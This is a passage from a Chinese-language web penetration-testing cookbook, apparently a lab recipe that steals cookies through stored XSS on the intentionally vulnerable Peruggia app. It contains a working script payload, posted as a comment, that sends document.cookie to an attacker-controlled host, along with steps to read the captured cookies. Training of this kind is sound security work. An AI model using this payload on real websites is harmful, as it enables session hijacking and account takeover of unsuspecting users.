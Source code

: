 这个 PHP 脚本会收集由 XSS 发送的所有 cookie。为了确保它能工作，访问` http://127.0.0.1/savecookie.php?cookie=test`，并且检查`/tmp/cookie_data.txt`的内容：

```
cat /tmp/cookie_data.txt 
```

如果它显式了`test`单词，就能生效。下一步就是了解 Kali 主机在 VirtualBox 主机网络中的地址，执行：

```
ifconfig
```

对于这本书，Kali 主机 的`vboxnet0`接口 IP 为 192.168.56.1 。

### 操作步骤

1.  我们在这个秘籍中会使用两个不同的浏览器。OWASP Mantra 是攻击者的浏览器，Iceweasel 是受害者的浏览器。在攻击者的浏览器中，访问`http://192.168.56.102/peruggia/`。

2.  让我们给页面的图片添加一条评论，点击`Comment on this picture`。

    ![](img/6-6-1.jpg)

3.  在文本框中输入下列代码：

    ```html
    <script> 
        var xmlHttp = new XMLHttpRequest(); 
        xmlHttp.open( "GET", "http://192.168.56.1/savecookie.php?cookie=" + document.cookie, true ); 
        xmlHttp.send( null ); 
    </script>
    ```
    
4.  点击`Post`。

5.  页面会执行我们的脚本，即使我们看不见任何改动。检查Cookie 文件的内容来查看结果。在我们的 Kali 主机上，打开终端并执行：

    ```
    cat /tmp/cookie_data.txt 
    ```
    
    ![](img/6-6-2.jpg)
    
    文件中会出现新的条目。
    
6.  现在，在受害者浏览器中访问` http://192.168.56.102/peruggia/`。

7.  点击`Login`。

